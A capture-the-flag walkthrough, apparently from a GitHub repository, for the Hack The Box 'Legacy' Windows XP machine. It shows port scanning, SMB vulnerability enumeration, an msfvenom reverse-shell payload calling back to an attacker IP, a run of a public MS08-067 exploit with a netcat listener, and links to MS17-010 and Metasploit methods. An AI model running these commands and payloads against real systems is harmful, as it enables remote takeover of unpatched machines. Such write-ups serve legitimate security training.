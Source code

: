 # Legacy 

**Links:** [1](https://www.hackthebox.com/machines/Legacy)  [2](https://app.hackthebox.com/machines/Legacy)

**Machine ip:** 10.10.10.4

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0a9f2486-def8-4367-a7c3-52d48f4ae128)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.4 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.4 --open

sudo nmap -Pn -n -sV -sC -sU -O -p$ports 10.10.10.4 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f9fb11ab-3893-4b05-9445-a3025431d537)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/56aa3613-f795-4f39-ae91-c937740f5ff4)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3b75c385-baa0-4aae-b31d-fae7e20d48c1)

+ Check **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323.


## Enumeration
```
ls -l /usr/share/nmap/scripts/smb* | grep vuln

nmap --script smb-vuln* -p 139,445 10.10.10.4
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4ec1a7b-5542-4821-88b7-9220180785e1)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2008-4250 (ms08-067) / Conficker](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-08-067)
+ Download python exploit from **ms08-067: CVE-2008-4250** [1](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) [2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
+ Take this shellcode into the script, and replace it with the default.
+ Update the shellcode in the exploit with our own. Copy the shellcode from **shellcode.txt** and overwrite the payload in the exploit.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows -o shellcode.txt

python ms08-067.py 10.10.10.4 6 445

nc -lnvp 4444

cd Documents and Settings\john\Desktop

type user.txt

cd C:\Documents and Settings\Administrator\Desktop

type root.txt

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78dea999-1856-426b-afe3-69aad9bab9de)

+ Transfer **whoami.exe** from **/usr/share/windows-binaries/** using **smbserver.py** since XP doesn't have a whoami binary or command.
+ Check if get the NT AUTHORITY\SYSTEM level access.

```
smbserver.py win /usr/share/windows-binaries/

\\10.10.14.24\win\whoami.exe
```

+ Get both user and root flags.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/168b61ac-c71d-4f60-8568-a9e1223f669a)


### Method 2: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit#d6e0) [2](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)
+ Try [1](https://github.com/helviojunior/MS17-010) [2](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py)
+ The exploit didn't work on me due to the below impacket errors:
  + [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
  + [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ **Alternatively**, [3](https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143)  [4](https://github.com/worawit/MS17-010)


### Method 3: CVE-2008-4250 (ms08-067) / Conficker -> Metasploit Solution
+ **windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50


### Method 4: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers -> Metasploit Solution
+ **exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
  + https://slv3rfx.com/posts/htb-legacy-writeup/


# References & Alternatives
+ https://vvmlist.github.io/#legacy
+ **ms08-067 / ms17-010:** https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
  + https://systemweakness.com/oscp-preparation-hack-the-box-2-legacy-557dc3f0e384
+ **ms17-010:** https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit
  + https://medium.com/@toneemarqus/legacy-hackthebox-walkthrough-2023-tonee-55189d9f6035
+ **metasploit exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://slv3rfx.com/posts/htb-legacy-writeup/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
+ **ms08-067:** https://benheater.com/hackthebox-legacy/
+ **metasploit windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50
  + https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/
  + https://www.hackingarticles.in/hack-the-box-challenge-legacy-walkthrough/


## CVE Scripting
+ **CVE-2008-4250 (ms08-067) / Conficker:** https://www.exploit-db.com/exploits/40279
    + https://nvd.nist.gov/vuln/detail/cve-2008-4250
    + https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067
    + https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  + https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
  + https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
+ **CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers:** https://www.exploit-db.com/exploits/43970
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010


## Tools
+ **windows-binaries / whoami.exe:** /usr/share/windows-binaries
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami
+ **smbserver.py:** /usr/share/doc/python3-impacket/examples/smbserver.py
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)


## For More
+ **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323
